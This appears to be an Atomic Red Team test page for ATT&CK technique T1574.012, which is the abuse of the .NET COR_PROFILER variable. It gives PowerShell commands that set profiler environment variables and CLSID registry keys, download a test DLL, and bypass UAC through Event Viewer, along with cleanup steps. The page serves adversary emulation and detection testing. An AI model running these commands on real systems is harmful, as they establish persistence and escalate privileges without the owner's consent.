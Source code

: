 # T1574.012 - COR_PROFILER
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/012)
<blockquote>Adversaries may leverage the COR_PROFILER environment variable to hijack the execution flow of programs that load the .NET CLR. The COR_PROFILER is a .NET Framework feature which allows developers to specify an unmanaged (or external of .NET) profiling DLL to be loaded into each .NET process that loads the Common Language Runtime (CLR). These profiliers are designed to monitor, troubleshoot, and debug managed code executed by the .NET CLR.(Citation: Microsoft Profiling Mar 2017)(Citation: Microsoft COR_PROFILER Feb 2013)

The COR_PROFILER environment variable can be set at various scopes (system, user, or process) resulting in different levels of influence. System and user-wide environment variable scopes are specified in the Registry, where a [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM) object can be registered as a profiler DLL. A process scope COR_PROFILER can also be created in-memory without modifying the Registry. Starting with .NET Framework 4, the profiling DLL does not need to be registered as long as the location of the DLL is specified in the COR_PROFILER_PATH environment variable.(Citation: Microsoft COR_PROFILER Feb 2013)

Adversaries may abuse COR_PROFILER to establish persistence that executes a malicious DLL in the context of all .NET processes every time the CLR is invoked. The COR_PROFILER can also be used to elevate privileges (ex: [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002)) if the victim .NET process executes at a higher permission level, as well as to hook and [Impair Defenses](https://attack.mitre.org/techniques/T1562) provided by .NET processes.(Citation: RedCanary Mockingbird May 2020)(Citation: Red Canary COR_PROFILER May 2020)(Citation: Almond COR_PROFILER Apr 2019)(Citation: GitHub OmerYa Invisi-Shell)(Citation: subTee .NET Profilers May 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - User scope COR_PROFILER](#atomic-test-1---user-scope-cor_profiler)

- [Atomic Test #2 - System Scope COR_PROFILER](#atomic-test-2---system-scope-cor_profiler)

- [Atomic Test #3 - Registry-free process scope COR_PROFILER](#atomic-test-3---registry-free-process-scope-cor_profiler)


<br/>

## Atomic Test #1 - User scope COR_PROFILER

auto_generated_guid: 9d5f89dc-c3a5-4f8a-a4fc-a6ed02e7cb5a

Creates user scope environment variables and CLSID COM object to enable a .NET profiler (COR_PROFILER).
The unmanaged profiler DLL (`T1574.012x64.dll`) executes when the CLR is loaded by the Event Viewer process.
Additionally, the profiling DLL will inherit the integrity level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity.
If the account used is not a local administrator the profiler DLL will still execute each time the CLR is loaded by a process, however,
the notepad process will not execute with high integrity.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | Path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
Write-Host "Creating registry keys in HKCU:Software\Classes\CLSID\#{clsid_guid}" -ForegroundColor Cyan
New-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}\InprocServer32" -Value #{file_name} -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value #{file_name} -Force | Out-Null
Write-Host "executing eventvwr.msc" -ForegroundColor Cyan
START MMC.EXE EVENTVWR.MSC
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}" -Recurse -Force -ErrorAction Ignore 
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -Force -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #2 - System Scope COR_PROFILER

auto_generated_guid: f373b482-48c8-4ce4-85ed-d40c8b3f7310

Creates system scope environment variables to enable a .NET profiler (COR_PROFILER). System scope environment variables require a restart to take effect.
The unmanaged profiler DLL (T1574.012x64.dll`) executes when the CLR is loaded by any process. Additionally, the profiling DLL will inherit the integrity
level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will
still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | Path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host "Creating system environment variables" -ForegroundColor Cyan
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value #{file_name} -Force | Out-Null
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -Force -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #3 - Registry-free process scope COR_PROFILER

auto_generated_guid: 79d57242-bbef-41db-b301-9d01d9f6e817

Creates process scope environment variables to enable a .NET profiler (COR_PROFILER) without making changes to the registry. The unmanaged profiler DLL (`T1574.012x64.dll`) executes when the CLR is loaded by PowerShell.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unamanged profiler DLL | Path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
$env:COR_ENABLE_PROFILING = 1
$env:COR_PROFILER = '#{clsid_guid}'
$env:COR_PROFILER_PATH = '#{file_name}'
POWERSHELL -c 'Start-Sleep 1'
```

#### Cleanup Commands:
```powershell
$env:COR_ENABLE_PROFILING = 0
$env:COR_PROFILER = ''
$env:COR_PROFILER_PATH = ''
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```




<br/>

